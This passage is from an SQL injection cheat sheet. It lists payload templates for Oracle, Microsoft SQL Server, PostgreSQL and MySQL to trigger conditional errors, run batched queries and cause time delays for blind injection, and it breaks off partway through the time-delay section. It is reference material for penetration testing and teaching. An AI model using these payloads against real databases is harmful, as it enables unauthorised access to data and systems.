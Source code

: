 Oracle

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`

Microsoft

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`

PostgreSQL

`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)`

MySQL

`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle

`Does not support batched queries.`

Microsoft

`QUERY-1-HERE; QUERY-2-HERE`

PostgreSQL

`QUERY-1-HERE; QUERY-2-HERE`

MySQL

`QUERY-1-HERE; QUERY-2-HERE`

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

Oracle

`dbms_pipe.receive_message(('a'),10)`

Microsoft

`WAITFOR DELAY '0:0:10'`

PostgreSQL

`SELECT pg_sleep(10)`

